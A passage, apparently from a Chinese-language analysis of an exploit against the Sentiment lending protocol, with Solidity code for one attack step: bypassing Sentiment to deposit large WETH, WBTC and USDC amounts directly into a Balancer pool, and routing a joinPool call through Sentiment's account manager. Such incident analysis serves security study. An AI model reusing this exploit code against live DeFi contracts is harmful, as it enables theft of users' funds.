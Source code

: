 ```solidity
        bytes memory userData = abi.encode(uint8(1), maxAmountsIn, 0);
        BalancerVault.JoinPoolRequest memory request = BalancerVault.JoinPoolRequest({
            assets:assets,
            maxAmountsIn:maxAmountsIn,
            userData:userData,
            fromInternalBalance:false
        });

        bytes memory data = abi.encodeWithSelector(balanceVault.joinPool.selector, poolId, sender, recipient, request);

        accountManager.exec(accountAddress, address(balanceVault), 0, data);

    }
```


### step2：绕过Sentiment，亲自到Balancer的`pair(B-33WETH-33WBTC-33USDC)`，存入10,000个EWTH，606WBTC，18,000,000USDC。


```solidity
    function joinPool() internal{
        WBTC.approve(address(balanceVault), 606e8);
        WETH.approve(address(balanceVault), 10_000e18);
        USDC_e.approve(address(balanceVault), 18_000_000e6);


        bytes32 poolId = B_33WETH_33WBTC_33USDC_POOL.getPoolId();
        address sender = address(this);//
        address recipient = address(this);
        address[] memory assets = new address[](3);
        assets[0] = address(WBTC);
        assets[1] = address(WETH);
        assets[2] = address(USDC_e);
        uint[] memory maxAmountsIn = new uint[](3);
        maxAmountsIn[0] = 606e8;
        maxAmountsIn[1] = 10_000e18;
        maxAmountsIn[2] = 18_000_000e6;

        bytes memory userData = abi.encode(uint8(1), maxAmountsIn, 0);
        BalancerVault.JoinPoolRequest memory request = BalancerVault.JoinPoolRequest({
            assets:assets,
            maxAmountsIn:maxAmountsIn,
            userData:userData,
            fromInternalBalance:false
        });
        balanceVault.joinPool{value:0.1e18}(poolId, sender, recipient, request);

    }
```
